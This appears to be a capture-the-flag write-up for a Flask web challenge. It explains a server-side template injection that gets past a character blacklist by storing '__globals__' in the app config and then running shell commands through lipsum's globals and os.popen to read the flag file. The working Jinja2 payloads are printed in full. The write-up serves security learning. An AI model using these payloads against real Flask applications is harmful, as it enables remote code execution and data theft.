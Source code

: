 ## Challenge Name: minigolf  
Category: Web  
Points: 172  
Solves: 64  

Challenge Description: 
Too much Flask last year... let's bring it back again.

Link: http://minigolf.chal.imaginaryctf.org  

### Approach
The site displays the python source code.  
```
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

This challenge is basically the same with `ssti-golf` challenge but this one had some words filtered.  
First of all, double brackets are filtered. We need to use `{%payload%}`.  
The problem is that we have limited payloads now and we also have to bypass `_`.  
The `{%%}` can be used for a if statement.  
We'll use the if statement to make the server check for the statement. Thus making it run malicious code.  
We can also use `print()` function.  
The equivlent of normal ssti payload `{{config}}` would be `{% print config %}`  

![config](https://github.com/0xL30N3/Writeups/blob/main/Images/minigolf.png)

Our injection point this time will be the `txt` parameter.  
To execute `{{lipsum.__globals__.os.popen('ls').read()}}` our payload needs to be in an if statement.
I bypassed the underscore in `__globals__` by declaring it as a config variable.  
I did this using this payload.  
`{%if%20config.update(a=request.args.a)==1%20%}1{%%20endif%}&a=__globals__`  
In order to check the if statement, the system would need to first run the code we have in the statement to compare it with `1`.  
That's why we can execute code in if statements.  
The `txt` parameter won't allow underscore so, I passed it in another parameter called `a`.  

We can recall the variable with the name `config.a`.  
I also declared another variable for the system command.  
`{%if%20config.update(g=request.args.g)==1%20%}1{%%20endif%}&g=ls`  
Finally, use print to display the output of the payload.  
`{%print(lipsum|attr(config.a)).os.popen(config.g).read()%}`  
`|attr(config)` is the same as `.` but it works for config variables.  
The payload returns the directory listing and we find the `flag.txt` file there.  

![ls](https://github.com/0xL30N3/Writeups/blob/main/Images/minigolf2.png)   

Then I changed the Config variable g to `cat flag.txt` using the same payload.  
`{%if%20config.update(g=request.args.g)==1%20%}1{%%20endif%}&g=cat%20flag.txt`  

I executed `{%print(lipsum|attr(config.a)).os.popen(config.g).read()%}` again and this time, it returned me the flag.
![flag](https://github.com/0xL30N3/Writeups/blob/main/Images/image.png)  

__Flag: `ictf{whats_in_the_flask_tho}`__
